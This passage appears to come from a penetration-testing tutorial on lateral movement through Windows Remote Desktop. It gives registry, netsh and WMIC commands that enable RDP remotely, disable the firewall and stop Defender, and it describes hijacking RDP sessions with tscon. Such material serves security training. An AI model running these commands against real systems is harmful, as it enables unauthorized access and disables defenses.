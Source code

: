 When other hosts in the intranet turn on remote desktop services, the attacker can use the acquired user credentials and other technologies to log in remotely, but this method may force logged out of the logged-in user and be easily discovered by the administrator.

## Determine whether the remote desktop is enabled

Query the registry to determine whether the current host has enabled the remote desktop function. If the return field value is `0`, it means that the `RDP` service has been started; if the return field value is `1`, it means that the `RDP` service has been disabled.

```powershell
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

Related commands to enable remote desktop function:

```powershell
# Enable remote desktop connection function
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# Close "Allow connections to only computers running remote desktops using network-level authentication" (authorization)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
# Set firewall policy to release port 3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# Turn off the firewall
netsh advfirewall set allprofiles state off
# Close Denfnder
net stop windefend
```

For remote hosts, you can also enable the remote desktop function through `WMI`:

```powershell
wmic /Node:10.10.10.137 /User:Administrator /Password:H3rmesk1t@2023 RDTOGGLE WHRER ServerName='win-98f4vaj03t5' call SetAllowTSConnections 1
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%201.png)

## RDP Hijacking

For Windows computers that enable Remote Desktop Service, multiple sessions will be generated when multiple users log in. An attacker can hijack other users' RDP sessions with acquired SYSTEM permissions and successfully log into the target system without authorization, even if the user's session is disconnected. This attack method is called "RDP Hijacking".

Remote desktop hijacking requires the system's `SYSTEM` permission and execute the `tscon` command, which provides a function to switch user sessions. Under normal circumstances, when switching sessions, you need to provide the target user's login password, but under the `SYSTEM` permission, you can bypass verification and switch to the target user's session without entering the password.

You can use the `query user` command to list all logged in users to get the `ID` or use the `query session` to view the session.
